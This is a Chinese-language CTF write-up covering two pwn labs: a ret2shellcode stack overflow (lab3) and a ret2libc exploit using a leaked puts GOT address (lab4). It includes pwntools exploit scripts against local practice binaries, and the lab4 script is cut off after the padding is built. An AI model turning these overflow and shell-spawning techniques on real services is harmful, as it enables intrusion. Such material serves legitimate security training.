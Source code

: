 

# lab3

很简单的栈溢出，ret2shellcode

但是有一点需要注意，并不能直接通过ida里面所给出s相对偏移来进行填充，需要在gdb里面跑一下才能计算出具体的偏移

![image-20220813150404002](/assets/img/2022/image-20220813150404002.png)

主要原因是有这行代码

![image-20220813150355154](/assets/img/2022/image-20220813150355154.png)

![image-20220813150723796](/assets/img/2022/image-20220813150723796.png)

```python
from pwn import *


r = process('./ret2sc')

r.recvuntil(':')
r.sendline(asm(shellcraft.sh()))
r.recvuntil(':')
p = 'a'*(28+4) + p32(0x804A060)
r.sendline(p)

r.interactive()
```

# lab4

 ![image-20220813095650428](/assets/img/2022/image-20220813095650428.png)

只开启了堆栈不可执行。 题目给了libc

一道很简单的ret2libc，但是一开始脑抽了，在libc中取got。。。还是基础不牢固呀![image-20220813111134045](/assets/img/2022/image-20220813111134045.png)

取got和libc偏移，还是用pwntools取的写法更优雅一点。gdb里取，或者readelf strings等方法都可以拿到偏移，但就是地址硬编码了，看起来不是很自然。

```python
from pwn import *


r = process('./ret2lib')
elf = ELF('./ret2lib')
libc = ELF('./libc')

put_got = elf.got["puts"]
put_off = libc.symbols['puts']
system_off = libc.symbols['system']
sh_off = libc.search('/bin/sh').next()

r.recvuntil(':')
r.sendline(str(put_got))
r.recvuntil('The content of the address :')
put_addr = int(r.recvuntil('\n'), 16)
r.recvuntil('Leave some message for me :')

libc_addr = put_addr - put_off
system_addr = libc_addr + system_off
sh_addr = libc_addr + sh_off
p = 'a'*(0x38+0x4)
```